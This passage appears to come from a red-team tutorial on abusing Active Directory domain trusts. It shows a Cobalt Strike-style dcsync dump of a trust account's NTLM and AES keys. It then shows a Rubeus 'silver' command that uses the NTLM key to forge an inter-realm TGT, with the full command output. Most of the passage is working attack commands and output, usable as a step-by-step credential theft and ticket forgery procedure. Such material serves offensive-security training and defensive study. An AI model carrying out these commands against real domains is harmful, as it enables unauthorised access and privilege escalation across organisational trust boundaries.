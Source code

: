 If you have credential material for an eligible principal, you can simply impersonate them, request access to a service, and rely on Windows to handle the ticket process in the background.  However, you can also manually forge inter-realm referral tickets using the inter-realm key.  When in the trusted domain, you can obtain this key by dumping the credentials for the associated trust account.

```batch
beacon> dcsync contoso.com CONTOSO\PARTNER$

Credentials:
  Hash NTLM: 6150491cceb080dffeaaec5e60d8f58d
    ntlm- 0: 6150491cceb080dffeaaec5e60d8f58d
    lm  - 0: a1542b43120fba746668d676b8e25f40

Supplemental Credentials:
* Primary:Kerberos-Newer-Keys *
    Default Salt : CONTOSO.COMkrbtgtPARTNER
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 48ceeb9986c09692d2200d6b8d4ba8ff0152a49a3507bee92bfc62281fa756fa
      aes128_hmac       (4096) : 7d6b3d1ace90c769bcaab80eaa8da70d
      des_cbc_md5       (4096) : 5d5e67259270abc4
```

These hashes can then be used with Rubeus' `silver` command.  Trusts, even in modern versions of Windows, use RC4 encryption by default.  So we tend to use the NTLM hash here.

```batch
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /user:pchilds /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /id:1105 /groups:513,1106,6102 /service:krbtgt/partner.com /rc4:6150491cceb080dffeaaec5e60d8f58d /nowrap

[*] Action: Build TGS

[*] Building PAC

[*] Domain         : CONTOSO.COM (CONTOSO)
[*] SID            : S-1-5-21-3926355307-1661546229-813047887
[*] UserId         : 1105
[*] Groups         : 513,1106,6102
[*] ServiceKey     : 6150491CCEB080DFFEAAEC5E60D8F58D
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 6150491CCEB080DFFEAAEC5E60D8F58D
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt
[*] Target         : partner.com

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'pchilds@CONTOSO.COM'

[*] AuthTime       : 18/03/2025 11:50:59
[*] StartTime      : 18/03/2025 11:50:59
[*] EndTime        : 18/03/2025 21:50:59
[*] RenewTill      : 25/03/2025 11:50:59

[*] base64(ticket.kirbi):

      doIFM[...snip...]mNvbQ==
```
